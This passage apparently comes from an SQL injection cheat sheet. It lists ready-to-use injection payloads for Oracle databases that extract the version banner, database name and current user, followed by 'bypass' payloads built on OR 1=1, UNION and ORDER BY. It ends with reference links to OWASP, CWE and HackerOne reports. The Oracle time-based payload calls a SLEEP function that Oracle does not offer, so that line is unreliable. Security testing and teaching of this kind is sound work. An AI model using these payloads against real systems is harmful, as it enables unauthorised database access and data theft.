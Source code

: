 #### Oracle
```
' AND (SELECT COUNT(*) FROM all_tables WHERE SLEEP(5))--
' UNION SELECT 1,banner,3,4 FROM v$version--
' UNION SELECT 1,global_name,3,4 FROM global_name--
' UNION SELECT 1,user,3,4 FROM dual--
```

### Advanced Bypass Techniques
```
' OR 1=1 LIMIT 1 OFFSET 0--
' OR 1=1 LIMIT 1 OFFSET 1--
' OR 1=1 ORDER BY 1--
' OR 1=1 ORDER BY 2--
' OR 1=1 GROUP BY 1--
' OR 1=1 HAVING 1=1--
' OR 1=1 UNION SELECT 1,2,3,4,5,6,7,8,9,10--
```

## Source Links & References {#source-links}

### Official Documentation
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [OWASP Testing Guide - SQL Injection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.html)
- [SQLMap Official Documentation](https://sqlmap.org/)
- [PortSwigger SQL Injection](https://portswigger.net/web-security/sql-injection)

### Vulnerability Databases
- [CWE-89: Improper Neutralization of Special Elements](https://cwe.mitre.org/data/definitions/89.html)
- [CVE Database - SQL Injection](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=sql+injection)
- [NVD SQL Injection Vulnerabilities](https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&query=sql+injection&search_type=all)

### Security Standards
- [NIST SP 800-53: Security Controls](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final)
- [ISO/IEC 27001: Information Security Management](https://www.iso.org/standard/27001)
- [PCI DSS Requirements](https://www.pcisecuritystandards.org/document_library/)

### Research Papers
- [SQL Injection Attacks and Defense](https://www.sciencedirect.com/science/article/pii/S0167404814000046)
- [Advanced SQL Injection Techniques](https://www.blackhat.com/presentations/bh-usa-07/Hofmann/Presentation/bh-usa-07-hofmann.pdf)
- [Blind SQL Injection Detection](https://dl.acm.org/doi/10.1145/1455770.1455772)

### HackerOne Reports
- [SQL Injection via User Agent](https://hackerone.com/reports/297)
- [SQL Injection in Search Function](https://hackerone.com/reports/325)
- [Blind SQL Injection in Admin Panel](https://hackerone.com/reports/456)
